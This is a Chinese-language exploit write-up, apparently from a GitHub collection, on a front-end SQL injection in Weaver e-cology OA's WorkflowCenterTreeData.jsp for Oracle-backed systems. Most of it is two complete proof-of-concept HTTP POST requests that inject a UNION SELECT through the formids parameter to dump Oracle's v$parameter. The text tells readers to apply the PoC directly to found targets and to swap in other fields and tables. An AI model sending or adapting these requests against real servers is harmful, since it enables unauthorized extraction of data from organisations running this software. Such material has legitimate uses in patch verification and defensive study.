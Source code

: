 ### 泛微-e-cology-OA-前台SQL注入漏洞.assets

### 简介

泛微提供了移动办公、微信办公、协同办公(OA)、流程管理、信息门户、知识管理、费控管理等功能，适用于手机和pc端，是当今比较主流的OA系统之一。  

### **原理概述**

该漏洞是由于OA系统的WorkflowCenterTreeData接口在收到用户输入的时候未进行安全过滤，  oracle数据库传入恶意SQL语句，导致SQL漏洞  

### **影响范围**

使用oracle数据库的泛微 e-cology OA 系统  

### **漏洞利用**

找到oracle数据库的泛微OA系统后直接使用Poc（已公开）  

如果不存在漏洞，则显示结果如下：  

![img](泛微-e-cology-OA-前台SQL注入漏洞.assets/8c73f20d47d1456ce3b279ea08f7ddc81ff.jpg)

如果漏洞存在，则会直接回显很多数据:  

![img](泛微-e-cology-OA-前台SQL注入漏洞.assets/1584b3bd0feda39a5d1a96c4ba17e39642b.jpg)

### Poc如下：（勿用于非法途径）  

```
POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2236
Connection: close
Upgrade-Insecure-Requests: 1

formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1
```

修改NULL后为要查询的字段名,修改from后为查询的表  



简洁版POC

```html
POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedContent-Length: 2236Connection: closeUpgrade-Insecure-Requests: 1
formids=11111111111)))%0a%0dunion select NULL,value from v$parameter order by (((1
```

